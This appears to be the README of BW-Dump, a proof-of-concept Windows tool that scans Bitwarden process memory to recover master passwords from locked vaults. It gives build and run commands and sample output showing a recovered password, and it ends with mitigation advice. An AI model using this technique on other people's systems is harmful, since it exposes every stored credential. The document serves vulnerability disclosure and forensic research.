 # BW-Dump

A proof-of-concept tool that extracts the master password from a locked Bitwarden vault (must be unlocked at least once) from Windows systems.

## Update (24/02/23)

![bitwarden-desktop-password-recovery-latest](https://user-images.githubusercontent.com/9108334/221217481-80bd8e11-95d5-45d7-8ad3-15cb12e7e53f.png)

Fixed a major issue with search pattern. A new and improved regular expression has been implemented. This helps identify strings that could potentially be the master password, or at least parts of it. Added a `-v` verbose option, which shows all strings that match the regex pattern. The tool has been tested and confirmed working on the latest version of Bitwarden Desktop (2023.2.0) on Windows 10 and 11.

Example output:

```
[+] Searching for processes...
[+] PID: 5468
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1677156036809828 --launch-time-ticks=36228907657 --mojo-platform-channel-handle=2540 --field-trial-handle=1816,i,6300308413610308636,7516158819106443187,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1
[+] Searching PID memory (5468)
[+] Found initial pattern
[+] Memory region: 0x35d40040c000 - 0x35d400434000
[+] Region size: 0x28000
[+] No. of hits: 40

all and (min-width: 241px)and (max-width: 480px)
all and (min-width: 481px)and (max-width: 768px)P
cdk-virtual-scroll-orientation-horizontal5
cdk-virtual-scroll-orientation-vertical
c55b7254_0a77_4262_ae9b_23e2a1943d05
attribution-reporting
...
ALL those flying cats
...
cdk-high-contrast-active
http://www.w3.org/2000/svg-pristine
all and (max-width: 240px)
cdk-overlay-containergling
axbufferpx
Zone:defineProperty
truncate-box
truncate
detaill-scroll-item
Zone:FileReader
lg tw-text-muted
[+] ------- Complete ---------
[+] ALL those fl!
[+] ALL those flying c
[+] ALL those flying cat
```

## Update (21/09/22)
A recent security update (not sure which one exactly) has fixed the issue on the web browser extension. ~~However, on versions `v2022.6.0` and below it should still work.~~ No longer supported.

## Demo
A short demo of using bw-dump with Microsoft Edge and the Bitwarden browser extension.

https://user-images.githubusercontent.com/9108334/191377244-f0e9a123-e4f0-43b0-90b5-697fc005ae7b.mov

## Building
**Warning: Windows Defender may report the compiled binary as malicious!**

To build on a system other than Windows:
```bash
env GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
```

Otherwise, run `go build -ldflags="-s -w"` which builds a stripped binary.

## Running
Simply build and execute the binary. It does NOT require admin rights. Make sure, a Chromium browser is running and the Bitwarden extension is installed. In addition, the vault needs to be unlocked at least once. After which, the master password will be stored in memory for a period of time. 

You can also pass the `-d` option to dump memory regions when a pattern is found. For each result, a filename `dump-pid-<PID>-<MEM-REGION>.hex` is created in the current working directory.

**Example Output**
```bash
PS C:\Users\Tester\dev\go\bw-dump> bw-dump.exe

 888 88b, Y8b Y8b Y888P    888 88e
 888 88P'  Y8b Y8b Y8P     888 888b  8888 8888 888 888 8e  888 88e 
 888 8K     Y8b Y8b Y  888 888 8888D 8888 8888 888 888 88b 888 888b
 888 88b,    Y8b Y8b       888 888P  Y888 888P 888 888 888 888 888P
 888 88P'     Y8P Y        888 88"    "88 88"  888 888 888 888 88" 
                                                           888     
            Created by @NazMarkuta at Red Maple            888     
    
BW-Dump is a Windows forensics tool that extracts Bitwarden master passwords from locked vaults
(must be unlocked at least once) by reading process memory using Windows API functions which
searches for magic byte patterns. The tool doesn't require any special (admin) permissions.

Now supports Bitwarden Desktop App (v2023.1.1) running on Windows 10 or 11. The tool (may) 
still support older Bitwarden Chromium extension versions (v2022.6.0) and below.

[+] Searching for processes...
[+] PID: 4228
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1675782335888921 --launch-time-ticks=4007177473 --mojo-platform-channel-handle=2508 --field-trial-handle=1792,i,3673052334935287551,6849534636950916074,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1

[+] Searching PID memory (4228)
[+] Found pattern at MemBaseAddr (0xb0800554000)
[+] Found password prefix bytes at offset (0xc121)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb0800a8c000)
[+] Found password prefix bytes at offset (0x1104)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb08014bc000)
[+] Found password prefix bytes at offset (0x62aa)
[+] Password recovered: "SUPER-SECURE-password8"

PS C:\Users\Tester\dev\go\bw-dump> 
```

## Is there a solution or workaround?
There are two ways (probably more) the master password can be trashed from memory:
1. Once locked, enter any random WRONG password. This should replace your password stored in memory.
2. Terminate the `Bitwarden.exe` process which Windows should do some garbage collection.

## What's next?
- Create a Volaility3 plugin that can extract master passwords from saved memory dumps.
